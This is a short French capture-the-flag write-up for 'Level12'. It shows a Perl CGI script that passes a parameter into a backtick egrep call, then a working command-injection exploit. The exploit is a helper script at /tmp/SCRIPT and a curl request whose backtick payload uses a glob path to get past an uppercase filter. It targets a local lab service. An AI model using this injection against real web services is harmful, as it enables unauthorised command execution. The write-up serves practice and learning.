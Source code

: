 # Level12:

**Le fichier perl fourni ressemble a ca:**
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1]; // Argument 1
  $xx = $_[0]; // Argument 0
  $xx =~ tr/a-z/A-Z/; // Convert lowercase into uppercase
  $xx =~ s/\s.*//; // Clear all spaces
  @output = `egrep "^$xx" /tmp/xd 2>&1`; // Exploit here
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```
**L'exploit present nous permet de modifier la commande du script en placant avant et apres nos instructions des backquotes**
**Commencons donc par creer un exploit a l'adresse /tmp/SCRIPT**
```bash
#!/bin/sh

getflag > /tmp/flag
```

**On le passe a l'url via le parametre x en n'oubliant pas les backquotes**
``curl '127.0.0.1:4646?x=`/*/SCRIPT`'``

**On accede donc maintenant au flag a l'adresse /tmp/flag**

![finaly.png](./finaly.png)